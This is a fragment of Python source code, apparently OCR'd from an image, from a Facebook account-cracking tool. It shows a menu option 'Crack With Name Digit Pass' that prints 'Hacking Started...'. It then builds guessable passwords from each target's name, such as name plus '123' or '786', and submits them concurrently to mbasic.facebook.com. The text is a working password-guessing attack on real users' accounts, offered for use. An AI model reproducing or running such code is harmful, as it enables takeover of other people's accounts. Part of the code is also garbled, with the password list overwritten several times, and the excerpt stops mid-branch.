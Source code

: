        print('[2] Crack With Name Digit Pass')

        chi = input('\n [✓] Choose: ')

        if chi == '':

            print('\nSelect Correct One')

            self.__pler__()

        elif chi in ('1', '01'):

            os.system("clear")

            print(logo)

            print("\033[1;36m\r          DONT USE ANY PROXY {VPN}\033[1;37m")

            print(47*"-")

            print('\033[1;36m Total IDs : %s ' % len(self.id))

            print('\033[1;36m Hacking Started...')

            print(47*"-")

            with diazhealth(max_workers=30) as healthworld:

                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia

                    try:

                        uid, name = zsb.split('|')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345", xz[0]+"786", xz[0]+"1122"]

                        else:

                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345", xz[0]+"786", xz[0]+"1122"]

                            pwx = ["78607860"]

                            pwx = ["445566"]

                        healthworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")

                    except:

                        pass

            hasil(ok,cp)

        elif chi in ('2', '02'):

            os.system("clear")

            print(logo)

            print("\033[1;37m\rEnter Last Name Digits\033[1;37m\n")

            p1 = input('  Name + 1 : ')
